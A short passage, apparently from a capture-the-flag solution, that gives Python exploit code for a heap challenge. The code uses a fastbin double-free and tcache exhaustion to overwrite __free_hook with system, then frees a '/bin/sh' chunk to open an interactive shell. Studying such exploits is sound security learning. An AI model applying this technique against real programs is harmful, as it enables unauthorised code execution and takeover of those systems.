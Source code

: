 ```python
    deln(1)
    deln(0)
    deln(1) # in fastbin: head -> 1 -> 0 -> 1
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18)
    addn(14, 0x18) # consume tcache
    addn(0, 0x18, p64(freeHook)) # thead -> 1 -> 0 -> freeHook
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18, p64(systemAddr)) # write systemAddr on freeHook
    addn(4, 0x48, b'/bin/sh\0')
    deln(4) # invoke shell

    sh.clean()
    sh.interactive()
```

